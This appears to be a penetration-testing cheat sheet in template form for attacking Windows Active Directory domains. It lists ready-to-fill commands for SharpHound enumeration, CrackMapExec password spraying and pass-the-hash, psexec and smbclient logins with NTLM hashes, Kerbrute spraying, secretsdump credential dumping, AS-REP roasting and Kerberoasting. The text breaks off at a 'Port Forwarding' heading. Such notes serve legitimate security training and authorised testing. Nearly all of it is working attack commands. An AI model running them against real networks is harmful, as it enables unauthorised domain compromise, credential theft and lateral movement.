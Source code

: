 ```
```
Sharphound.exe
Sharphound.exe --CollectionMethods All --domain <Domain> --ExcludeDCs
```

## Post Compromise Exploit
#### CrackMapExec
```
crackmapexec smb <%tp.frontmatter.IP%> -u users.txt -p <%tp.frontmatter.Password%> -d corp.com --continue-on-success
```
- Pass The Hash
```
sudo crackmapexec smb <%tp.frontmatter.IP%>/24 -u "<%tp.frontmatter.IP%>" -H 64f12cddaa88057e06a81b54e73b949b --local-auth
```

#### PSExec
```
psexec.py -hashes :2892d26cdf84d7a70e2eb3b9f05c425e <%tp.frontmatter.Username%>@<%tp.frontmatter.IP%>
```
#### Kerbrute
```
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "<%tp.frontmatter.Password%>"
```

#### SMBClient
```
smbclient \\\\<%tp.frontmatter.IP%>\\secrets -U <%tp.frontmatter.Username%> --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
```


### Dump Hashes
#### SecretsDump
```
secretsdump.py <domain>/<%tp.frontmatter.Username%>:<%tp.frontmatter.Password%>@<%tp.frontmatter.IP%>
```

### AS Rep Roasting
- Enumerate with the following on victim
```
Get-DomainUser -PreauthNotRequired 
```
- Get hashes with
```
impacket-GetNPUsers -dc-ip <%tp.frontmatter.IP%>  -request -outputfile hashes.asreproast <Domain>/<%tp.frontmatter.Username%>
```
- Or run the following on victim machine
```
cd C:\Tools
.\Rubeus.exe asreproast /nowrap
```
### Get User SPNs
```
GetUserSPNs.py <Domain>/<%tp.frontmatter.Username%>:<%tp.frontmatter.Password%> -dc-ip <%tp.frontmatter.IP%> -request
```
- Or on victim machine with
```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
- Crack with -m 13100
# Port Forwarding
```
